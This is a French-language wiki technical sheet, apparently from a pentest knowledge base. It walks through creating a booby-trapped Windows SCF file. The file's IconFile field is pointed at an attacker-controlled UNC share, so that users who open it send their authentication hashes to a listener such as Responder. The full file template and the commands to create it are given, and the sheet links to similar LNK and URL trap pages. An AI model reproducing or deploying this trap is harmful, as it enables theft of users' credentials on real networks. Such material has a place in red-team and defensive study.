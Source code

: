 ```yaml
---
title: Créer un fichier SCF piégé
description: Guide pour la création de fichier SCF (Shell Command File) piégé. Un fichier SCF peut être utilisé par un attaquant pour récupérer les hash des utilisateurs.
published: true
date: 2025-05-04T14:53:28.758Z
tags: windows, fiche technique
editor: markdown
dateCreated: 2024-10-26T09:31:10.018Z
---
```


# Introduction

Guide pour la création de fichier SCF (Shell Command File) piégé. Un fichier SCF peut être utilisé par un attaquant pour récupérer les hash des utilisateurs.

> Un fichier SCF est utilisé par l'explorateur de fichier pour effectuer de nombreuses actions comme afficher le bureau ou encore se déplacer dans l'arborescence.
> {.is-info}

La base de l'exploitation repose sur le fait de définir l'icone du fichier SCF vers le serveur d'un attaquant. En cliquant sur le raccourci, l'utilisateur va essayer de s'authentifier au serveur pour récupèrer cette icône.

> Depuis Windows Server 2019, les fichiers SCF ne fonctionnent plus. Mais il est possible de passer par des fichiers .lnk malveillants pour contourner le problème.
> {.is-warning}

# Création du fichier

Créer un fichier se terminant par .scf
`New-Item monfichier.scf`
Modifier le fichier
`notepad.exe monfichier.scf`
Ajouter les lignes suivantes et changer certains champs comme souhaité:

```
[Shell]
Command=2
IconFile=\\<adresse du serveur attaquant>\<nom du partage>\<nom de l'icône>.ico
[Taskbar]
Command=ToggleDesktop
```

> Le fichier ainsi que le partage n'existent pas obligatoirement sur le serveur attaquant, il est possible d'avoir uniquement un outil comme Responder pour intercepter les hash.
> {.is-info}

A présent, le fichier est maintenant créer, il suffit d'attendre que le fichier soit cliqué pour recevoir les informations d'authentification sur notre machine attaquante.

# Voir aussi

Fiche technique pour la création d'un fichier LNK piégé
[voir la page](/Fiches-techniques/Windows/Creer-un-fichier-LNK-piégé)

Lnkbomb, créer des fichiers raccourcis .url malveillants
[voir la page](/Outils/Indépendant/Lnkbomb)

